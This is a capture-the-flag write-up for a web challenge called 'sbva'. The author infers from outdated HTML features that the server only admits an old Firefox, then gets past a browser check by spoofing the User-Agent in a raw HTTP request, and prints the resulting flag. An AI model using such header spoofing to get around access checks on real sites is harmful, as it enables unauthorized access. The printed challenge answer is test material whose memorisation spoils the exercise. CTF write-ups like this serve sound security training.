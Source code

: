 # sbva, Web, 110pts

## Problem

We offer extensive website protection that stops attackers even when the admin's credentials are leaked!

Try our demo page http://0da57cd5.quals2018.oooverflow.io with username:password admin@oooverflow.io:admin to see for yourself.

## Solution

It was a quite tricky challenge, which looks somehow difficult at the beginning. The only thing we've got was a simple login form and when I've put credentials provided, I immediately stuck with the page said that ```Incompatible browser detected.``` (served by the file named ```wrongbrowser.php```)

So it was clear that solution is somewhere around User-Agent string.

First thing I've tried was some simple XSS and SQLi payloads, like typical _skiddie_, with expected result (I mean - no result at all). The next try was to get rid off User-Agent completely:


![Screen caption](1.png)


Then I've realized the fact that this weird HTML has to be some clue:

```html
<html>
    <style scoped>
        h1 {color:red;}
        p {color:blue;} 
    </style>
    <video id="v" autoplay> </video>
    <script>
        if (navigator.battery.charging) {
            console.log("Device is charging.")
        }
    </script>
</html>

```

Why such weird "page" was put into something which the only thing to do was to redirect to ```wrongbrowser.php```?
And why this code checks if my battery is charging?


Wait a second... ```navigator.battery``` is not supported already in many browsers or its newer API ```navigator.getBattery()``` should be used. And why the hell someone used ```scoped``` attribute for ```<style>``` element, which is not supported by any current browser? (https://caniuse.com/#search=scoped)

But, it's supported by Firefox from version 21 up to 54. And ```navigator.battery``` is supported as well by Firefox from 16 (from 11 by enabling a flag in the settings) up to 42 (later versions supports only ```navigator.getBattery()```) - check https://caniuse.com/#search=battery

And ```autoplay``` attribute in ```<video>``` tag is supported by almost all browsers inlcuding above.

Ok, so what if I spoof User-Agent string with Firefox version supporting all ```autoplay```, ```scoped``` and ```navigator.battery```?

Let's check then with Firefox 42, which meets those requirements:

```
GET /browsertest.php HTTP/1.1
Host: 0da57cd5.quals2018.oooverflow.io
Accept: application/php
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:42.0) Gecko/20100101 Firefox/42.0
Content-Length: 2
```

Aaaand here we are:

```
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Sat, 12 May 2018 17:55:36 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Security-Policy: upgrade-insecure-requests
Content-Length: 291

OOO{0ld@dm1nbr0wser1sth30nlyw@y}
<html>
    <style scoped>
        h1 {color:red;}
        p {color:blue;} 
    </style>
    <video id="v" autoplay> </video>
    <script>
        if (navigator.battery.charging) {
            console.log("Device is charging.")
        }
    </script>
</html>
```


![Screen caption](2.png)


**Flag: OOO{0ld@dm1nbr0wser1sth30nlyw@y}**
